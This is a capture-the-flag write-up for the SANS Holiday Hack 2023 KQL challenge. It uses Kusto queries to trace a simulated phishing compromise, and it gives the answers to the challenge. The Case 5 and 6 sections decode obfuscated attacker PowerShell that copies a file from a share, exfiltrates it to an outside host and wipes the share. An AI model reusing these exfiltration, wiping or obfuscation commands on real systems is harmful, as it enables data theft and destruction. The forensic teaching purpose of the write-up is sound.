

# SANS Holiday Hack Challenge 2023 - KQL Kraken Hunt

## Description

> Use Azure Data Explorer (https://detective.kusto.io/sans2023) to uncover misdeeds in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

> **Tangle Coalbox (Gumshoe Alley PI Office)**:
*Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.
I've got a network infection case on Film Noir Island that needs your expertise.
Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.
I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?
You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.
Before you start, you'll need to [create a free cluster](https://dataexplorer.azure.com/freecluster).
Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.
Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.
If you run into any problems, just give me a holler, I've got your back.
Good hunting, and let's bring this cyber criminal to justice.
Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.*

### Hints

> **Outbound Connections**: Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!

> **KQL Tutorial**: Once you get into the [Kusto trainer](https://detective.kusto.io/sans2023), click the blue Train me for the case button to get familiar with KQL.

> **File Creation**: Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

### Metadata

- Difficulty: 2/5
- Tags: `Azure Data Explorer`, `KQL`, `kusto`, `forensics`

## Solution

### Video

<iframe width="1280" height="720" src="https://youtu.be/LtHHYrNxOEw?t=2115" title="SANS Holiday Hack Challenge 2023 - KQL Kraken Hunt" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### Write-up

Our task is to use KQL queries to answer some digital forensics related questions by querying multiple tables storing log data.

#### Loading

First, we have to load the tables with data.


```
.execute database script <|
.create table AuthenticationEvents (timestamp:datetime, hostname:string, src_ip:string, user_agent:string, username:string, result:string, password_hash:string, description:string)
.create table Email (timestamp:datetime, sender:string, reply_to:string, recipient:string, subject:string, verdict:string, link:string)
.create table Employees (hire_date:datetime, name:string, user_agent:string, ip_addr:string, email_addr:string, company_domain:string, username:string, role:string, hostname:string)
.create table FileCreationEvents (timestamp:datetime, hostname:string, username:string, sha256:string, path:string, filename:string, process_name:string)
.create table InboundNetworkEvents (timestamp:datetime, ['method']:string, src_ip:string, user_agent:string, url:string)
.create table OutboundNetworkEvents (timestamp:datetime, ['method']:string, src_ip:string, user_agent:string, url:string)
.create table PassiveDns (timestamp:datetime, ip:string, domain:string)
.create table ProcessEvents (timestamp:datetime, parent_process_name:string, parent_process_hash:string, process_commandline:string, process_name:string, process_hash:string, hostname:string, username:string)
.create table SecurityAlerts (timestamp:datetime, alert_type:string, severity:string, description:string, indicators:dynamic)
// Ingest data into tables
.ingest into table AuthenticationEvents ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/AuthenticationEvents.csv') with (ignoreFirstRecord = true)
.ingest into table Email ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/Email.csv') with (ignoreFirstRecord = true)
.ingest into table Employees ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/Employees.csv') with (ignoreFirstRecord = true)
.ingest into table FileCreationEvents ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/FileCreationEvents.csv') with (ignoreFirstRecord = true)
.ingest into table InboundNetworkEvents ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/InboundNetworkEvents.csv') with (ignoreFirstRecord = true)
.ingest into table OutboundNetworkEvents ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/OutboundNetworkEvents.csv') with (ignoreFirstRecord = true)
.ingest into table PassiveDns ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/PassiveDns.csv') with (ignoreFirstRecord = true)
.ingest into table ProcessEvents ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/ProcessEvents.csv') with (ignoreFirstRecord = true)
.ingest into table SecurityAlerts ('https://kustodetectiveagency.blob.core.windows.net/sans2023c0start/SecurityAlerts.csv') with (ignoreFirstRecord = true)
```
#### Onboarding

> How many Craftperson Elf's are working from laptops?

`25`

```
Employees 
| where hostname has "LAPTOP" and role == "Craftsperson Elf"
| count
```


#### Case 1

> Welcome to Operation Giftwrap: Defending the Geese Island network.

> An urgent alert has just come in, 'A user clicked through to a potentially malicious URL involving one user.' This message hints at a possible security incident, leaving us with critical questions about the user's intentions, the nature of the threat, and the potential risks to Santa's operations. Your mission is to lead our security operations team, investigate the incident, uncover the motives behind email, assess the potential threats, and safeguard the operations from the looming cyber threat.

> The clock is ticking, and the stakes are high - are you up for this exhilarating challenge? Your skills will be put to the test, and the future of Geese Island's digital security hangs in the balance. Good luck!
The alert says the user clicked the malicious link 'http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx'

> What is the email address of the employee who received this phishing email?

`alabaster_snowball@santaworkshopgeeseislands.org`

> What is the email address that was used to send this spear phishing email?

`cwombley@gmail.com`

> What was the subject line used in the spear phishing email?

`[EXTERNAL] Invoice foir reindeer food past due`

```
Email
| where link == "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project recipient, sender, subject
```


#### Case 2

> Someone got phished! Let's dig deeper on the victim...
Nicely done! You found evidence of the spear phishing email targeting someone in our organization. Now, we need to learn more about who the victim is!

> If the victim is someone important, our organization could be doomed! Hurry up, let's find out more about who was impacted!

> What is the role of our victim in the organization?

`Head Elf`

> What is the hostname of the victim's machine?

`Y1US-DESKTOP`

> What is the source IP linked to the victim?

`10.10.0.4`

```
Email
| join (Employees) on $left.recipient == $right.email_addr
| where link == "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project role, hostname, ip_addr
```


#### Case 3

> That's not good. What happened next?

> The victim is Alabaster Snowball? Oh no... that's not good at all! Can you try to find what else the attackers might have done after they sent Alabaster the phishing email?

> Use our various security log datasources to uncover more details about what happened to Alabaster.

> What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`2023-12-02T10:12:42Z`

> What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`giftwrap.exe`

```
OutboundNetworkEvents
| where url == "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
```

```
FileCreationEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z")
| project timestamp, filename
| take 2
```


#### Case 4

> A compromised host!

> Time for a deep dive.

> Well, that's not good. It looks like Alabaster clicked on the link and downloaded a suspicious file. I don't know exactly what giftwrap.exe does, but it seems bad.
Can you take a closer look at endpoint data from Alabaster's machine? We need to figure out exactly what happened here. Word of this hack is starting to spread to the other elves, so work quickly and quietly!

> The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`113.37.9.17`

> What is the timestamp when the attackers enumerated network shares on the machine?

`2023-12-02T16:51:44Z`

> What was the hostname of the system the attacker moved laterally to?

`NorthPolefileshare`

```
ProcessEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z") and parent_process_name == "cmd.exe"
| project timestamp, process_commandline
```


#### Case 5

> A hidden message

> Wow, you're unstoppable! Great work finding the malicious activity on Alabaster's machine. I've been looking a bit myself and... I'm stuck. The messages seem to be garbled. Do you think you can try to decode them and find out what's happening?

> Look around for encoded commands. Use your skills to decode them and find the true meaning of the attacker's intent! Some of these might be extra tricky and require extra steps to fully decode! Good luck!

> If you need some extra help with base64 encoding and decoding, click on the 'Train me for this case' button at the top-right of your screen.

> When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

`2023-12-24T16:07:47Z`

> What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

`NaughtyNiceList.txt`

> The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

`giftbox.com`

```
ProcessEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z") and parent_process_name == "cmd.exe"
| project timestamp, process_commandline
```



**PowerShell #1**

```
KCAndHh0LnRzaUxlY2lOeXRoZ3VhTlxwb3Rrc2VEXDpDIHR4dC50c2lMZWNpTnl0aGd1YU5cbGFjaXRpckNub2lzc2lNXCRjXGVyYWhzZWxpZmVsb1BodHJvTlxcIG1ldEkteXBvQyBjLSBleGUubGxlaHNyZXdvcCcgLXNwbGl0ICcnIHwgJXskX1swXX0pIC1qb2luICcn
```
->
```powershell
( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''
```
->
```powershell
powershell.exe -c Copy-Item \\NorthPolefileshare\c$\MissionCritical\NaughtyNiceList.txt C:\Desktop\NaughtyNiceList.txt
```

**PowerShell #2**

```
W1N0UmlOZ106OkpvSW4oICcnLCBbQ2hhUltdXSgxMDAsIDExMSwgMTE5LCAxMTAsIDExOSwgMTA1LCAxMTYsIDEwNCwgMTE1LCA5NywgMTEwLCAxMTYsIDk3LCA0NiwgMTAxLCAxMjAsIDEwMSwgMzIsIDQ1LCAxMDEsIDEyMCwgMTAyLCAxMDUsIDEwOCwgMzIsIDY3LCA1OCwgOTIsIDkyLCA2OCwgMTAxLCAxMTUsIDEwNywgMTE2LCAxMTEsIDExMiwgOTIsIDkyLCA3OCwgOTcsIDExNywgMTAzLCAxMDQsIDExNiwgNzgsIDEwNSwgOTksIDEwMSwgNzYsIDEwNSwgMTE1LCAxMTYsIDQ2LCAxMDAsIDExMSwgOTksIDEyMCwgMzIsIDkyLCA5MiwgMTAzLCAxMDUsIDEwMiwgMTE2LCA5OCwgMTExLCAxMjAsIDQ2LCA5OSwgMTExLCAxMDksIDkyLCAxMDIsIDEwNSwgMTA4LCAxMDEpKXwmICgoZ3YgJypNRHIqJykuTmFtRVszLDExLDJdLWpvaU4
```
->
```powershell
[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*MDr*').NamE[3,11,2]-joiN
```
->
```powershell
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
```

#### Case 6

> The final step!

> Wow! You decoded those secret messages with easy! You're a rockstar. It seems like we're getting near the end of this investigation, but we need your help with one more thing...

> We know that the attackers stole Santa's naughty or nice list. What else happened? Can you find the final malicious command the attacker ran?

> What is the name of the executable the attackers used in the final malicious command?

`downwithsanta.exe`

> What was the command line flag used alongside this executable?

`--wipeall`

```
ProcessEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z") 
| project timestamp, process_commandline
```


**PowerShell #3**

```
QzpcV2luZG93c1xTeXN0ZW0zMlxkb3dud2l0aHNhbnRhLmV4ZSAtLXdpcGVhbGwgXFxcXE5vcnRoUG9sZWZpbGVzaGFyZVxcYyQ
```
->
```powershell
C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
```

#### Final

> Congratulations!

> Congratulations, you've cracked the Kusto detective agency section of the Holiday Hack Challenge!

> By now, you've likely pieced together the broader narrative of the alert we received. It all started with Wombley Cube, a skilled Craftsperson, and a malicious insider, who sent an email to the esteemed head elf, Alabaster Snowball. This seemingly innocent email contained a dangerous link leading to the malicious domain, MadElvesNorthPole.org. Alabaster Snowball, from his PC, unwittingly clicked on the link, resulting in the download and execution of malicious payloads. Notably, you've also discerned Wombley Cube's ulterior motive: to pilfer a copy of Santa's naughty or nice list and erase the data on the share drive containing critical information to Santa's operations. Kudos to you!

> To earn credit for your fantastic work, return to the Holiday Hack Challenge and enter the secret phrase which is the result of running this query:

```
print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
```
->
```
Beware the Cube that Wombles
```

> **Tangle Coalbox (Gumshoe Alley PI Office)**:
*I had my doubts, but you've proven your worth.
That phishing scheme won't trouble our client's organization anymore, thanks to your keen eye and investigatory prowess.
So long, Gumshoe, and be careful out there.*